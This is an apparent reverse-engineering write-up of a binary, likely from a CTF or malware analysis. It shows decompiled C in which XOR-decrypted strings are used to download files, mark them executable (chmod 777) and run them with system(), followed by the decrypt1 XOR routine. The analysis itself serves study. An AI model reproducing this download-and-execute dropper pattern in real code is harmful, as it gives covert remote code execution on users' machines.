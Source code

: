 ```C
  uStack_9c = 0x8ec5e155;
  uStack_98 = 0x3af55fc1;
  uStack_94 = 0;
  uStack_90 = 0x9a6f65f0;
  uStack_8c = 0xadf4f27e;
  uStack_88 = 0x4a8c4663;
  uStack_84 = 0x9082ea40;
  local_80 = 200;
  memcpy(enc1,&DAT_00400f74,0x3a);
  memcpy(enc2,&DAT_00400fb0,0x37);
  decrypt1((char *)&local_a8);
  decrypt1((char *)&uStack_90);
  decrypt1(enc1);
  decrypt1(enc2);
  iVar1 = access((char *)&local_a8,0);
  if (iVar1 == -1) {
    get_file(enc1,&local_a8);
    chmod((char *)&local_a8,0x1ff);
  }
  iVar1 = access((char *)&uStack_90,0);
  if (iVar1 == -1) {
    get_file(enc2,&uStack_90);
    chmod((char *)&uStack_90,0x1ff);
  }
  system((char *)&uStack_90);
  system((char *)&local_a8);
  return 0;
}

```

looking at the memcpy() and decrpypt1() calls
we see 
```C
  memcpy(enc1,&DAT_00400f74,0x3a);
  memcpy(enc2,&DAT_00400fb0,0x37);
  decrypt1((char *)&local_a8);
  decrypt1((char *)&uStack_90);
  decrypt1(enc1);
  decrypt1(enc2);
  ```

we memcpy some statically allocated variable into some stack variables and also decrypt some variables which are on the stack.

looking at the decrypt1() function.

```C

void decrypt1(char *param_1)

{
  uint uVar1;
  size_t sVar2;
  uint i;
  
  for (i = 0; sVar2 = strlen(param_1), i < sVar2; i = i + 1) {
    uVar1 = i & 0x8000001f;
    if ((int)uVar1 < 0) {
      uVar1 = (uVar1 - 1 | 0xffffffe0) + 1;
    }
    param_1[i] = param_1[i] ^ (&DAT_00400f24)[uVar1];
  }
  return;
}
```